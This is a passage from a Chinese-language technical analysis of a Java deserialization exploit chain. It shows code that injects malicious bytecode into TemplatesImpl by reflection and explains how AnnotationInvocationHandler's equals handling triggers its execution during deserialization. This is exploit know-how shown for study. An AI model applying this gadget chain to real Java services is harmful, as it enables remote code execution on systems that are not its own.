 ```text
        byte[] evilByteCodes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{evilByteCodes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();
    }
```

在上面的代码示例中，是手动调用 `newTransformer()` 来触发恶意代码的执行，因此还需要找到一个能够在反序列化过程中，自动调用 \(直接或间接\) 该方法的类

### AnnotationInvocationHandler <a id="annotationinvocationhandler"></a>

在构造 payload 中，利用了 `AnnotationInvocationHandler` 提供的 `equals` 方法的默认实现，来触发对 `Tempaltes` 接口中 `getOutputProperties()` 或 `newTransformer()` 的调用，来具体看一下

AnnotationInvocationHandler 位于 `sun.reflect.annotation` 包中，用于 Annotation 的动态代理，其定义如下

```text
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private final Class extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class extends Annotation> type, Map<String, Object> memberValues) {
        // Annotation Class type，eg. Override.class
        this.type = type;
        this.memberValues = memberValues;
    }
  ...
}    
```

可以看到实现了 `InvocationHandler` 和 `Serializable` 两个接口，根据 **Dynamic Proxy** 部分的介绍，使用 AnnotationInvocationHandler 创建的 proxy object 的所有方法调用都会变成对 invoke 方法的调用，来看一下方法的实现

```text
 public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        ...
    }
```

可以看到当调用方法名为`equals` 时，且参数个数和类型匹配，则调用内部 `equalsImpl` 方法

跟入后可以看到，首先获取 `type` Class 所有声明的方法，然后在参数 Object o 上使用反射调用方法，因此前面所说 **TemplatesImpl** 实例是需要作为参数传入
